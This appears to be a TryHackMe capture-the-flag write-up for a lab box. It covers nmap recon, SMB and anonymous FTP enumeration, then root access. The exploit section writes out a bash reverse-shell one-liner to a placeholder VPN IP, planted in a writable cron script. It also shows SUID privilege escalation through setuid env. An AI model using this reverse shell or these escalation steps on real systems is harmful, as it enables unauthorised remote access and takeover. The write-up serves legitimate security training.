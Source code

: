 ```yaml
---
title: 0Day
author: Teja
date: 03-08-2021
categories: [Writeups, Pentesting, Samba, FTP]
tags: [tryhackmeBox]
---
```


Easy Tryhackme Box

## Recon

I did an nmap scan on the box that revealed 4 open ports.

But the ftp port had anonymous login enabled which was very easy to exploit.
And the rest were ok.

```bash
# Nmap 7.91 scan initiated Mon Aug  2 20:30:10 2021 as: nmap -sC -sV -Pn -oN initial.nmap 10.10.170.122
Nmap scan report for 10.10.170.122
Host is up (0.17s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.14.13.156
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 0s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2021-08-02T15:00:46+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-02T15:00:46
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug  2 20:30:50 2021 -- 1 IP address (1 host up) scanned in 39.91 seconds
```

## Enumeration

I tried enumerating for shares on the ports 139, 445 for smb shares.

```bash 
smbclient -L //HOST-IP/ -N
```

This gives me shares with the names of `pics`. 

Logging into them as user and downloading those pictures thinking it might have some steg involved ended up as a rabbit hole.

But FTP service on this machine allows anonymous user login. So I logged into the ftp on port 21 with creds : `anonymous:anonymous`.
It really doesn't matter what the password is as long as username is `anonymous`.

## Exploit

There are 3 files in the ftp server. one of them is just a to_do.txt and irrelevant.

There is a `clean.sh` and a `removed_files.log` file.

Looking at the `clean.sh` file, it seems it checks if any files are present in the tmp folder and logs them into `removed_files.log` file.

So this must be a cronjob that executes itself after a certain time interval.

So I changed the script to a bash reverse shell using `!nano` command and started a listener on my local machine.

clean.sh: \
```bash
#!/bin/bash
bash -i >& /dev/tcp/<VPN-IP>/9999 0>&1
```

And so after some time, we get a shell as the user `namelessone`.

## Priv Esc

I used the `find` command to find any setuids that I can use for priv esc.

```bash
find / -perm -u=s -type f -user root 2>/dev/null
```

I found the setuid `/usr/bin/env` that has it's setuid bit set.

Using the command from gtfobins for [env](https://gtfobins.github.io/gtfobins/env/).

We can get direct root access. Now we can go ahead and read both user and root flags.